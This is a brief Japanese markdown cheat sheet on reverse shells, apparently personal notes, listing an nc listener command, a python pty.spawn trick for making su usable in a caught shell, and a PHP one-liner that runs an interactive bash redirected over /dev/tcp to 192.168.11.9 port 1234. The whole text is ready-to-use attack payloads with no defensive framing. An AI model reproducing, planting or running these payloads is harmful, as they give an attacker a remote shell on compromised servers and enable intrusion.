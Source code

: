 # リバースシェル

## メモ

### listen

```shell
nc -lvp <port>
```

### リバースシェルで su を実行できるようにする魔法

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

## 言語別

### PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.11.9/1234 0>&1'") ?>
```
